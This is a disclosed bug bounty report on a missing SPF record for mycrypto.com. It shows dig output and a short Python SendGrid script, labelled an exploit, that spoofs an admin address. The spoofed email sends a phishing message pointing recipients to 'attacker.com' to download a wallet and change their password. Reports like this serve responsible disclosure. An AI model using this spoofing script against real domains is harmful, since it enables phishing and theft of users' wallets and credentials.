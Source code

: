 # Missing SPF record for the in scope domain

## Report Details
- **Report ID**: 325734
- **URL**: https://hackerone.com/reports/325734
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-03-13T20:47:42.611Z
- **Disclosed**: 2018-05-24T01:29:59.371Z

## Reporter
- **Username**: luciann
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mycrypto

## Vulnerability Information
```
nli@nlistation:~$ dig mycrypto.com txt

; <<>> DiG 9.10.3-P4-Ubuntu <<>> mycrypto.com txt
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 43571
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;mycrypto.com.			IN	TXT

;; AUTHORITY SECTION:
mycrypto.com.		10800	IN	SOA	ns-1945.awsdns-51.co.uk. awsdns-hostmaster.amazon.com. 1 7200 900 1209600 86400

;; Query time: 37 msec
;; SERVER: 127.0.0.1#53(127.0.0.1)
;; WHEN: Tue Mar 13 22:37:32 EET 2018
;; MSG SIZE  rcvd: 125
```
Instead of: 

```
nli@nlistation:~$ dig gmail.com txt

; <<>> DiG 9.10.3-P4-Ubuntu <<>> gmail.com txt
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 19223
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;gmail.com.			IN	TXT

;; ANSWER SECTION:
gmail.com.		300	IN	TXT	"v=spf1 redirect=_spf.google.com"

;; Query time: 52 msec
;; SERVER: 127.0.0.1#53(127.0.0.1)
;; WHEN: Tue Mar 13 22:37:49 EET 2018
;; MSG SIZE  rcvd: 82

```
Where you can observe "v=spf1 redirect=_spf.google.com". Further more  this is a functional exploit for this issue (you still need an API key):

```
import sendgrid
import os
from sendgrid.helpers.mail import *
 
sg = sendgrid.SendGridAPIClient(apikey=os.environ.get('SENDGRID_API_KEY'))
from_email = Email("legit-admin@mycrypto.com")
to_email = Email("Your email")
subject = "Please Change your Password"
content = Content("text/plain", "Message From Admin ,Download Wallet from https://attacker.com, Change your password at https://attacker.com")
mail = Mail(from_email, subject, to_email, content)
response = sg.client.mail.send.post(request_body=mail.get())
print(response.status_code)
print(response.body)
print(response.headers)
```
You can also send from a web server or something else of your choosing.

## Impact

Missing SPF record for the in scope domain allows attackers to impersonate emails in order to send targeted phishing emails. This is rather common for ICO's or targeted attacks.

## Attachments
- Selection_040.png
- Selection_041.png
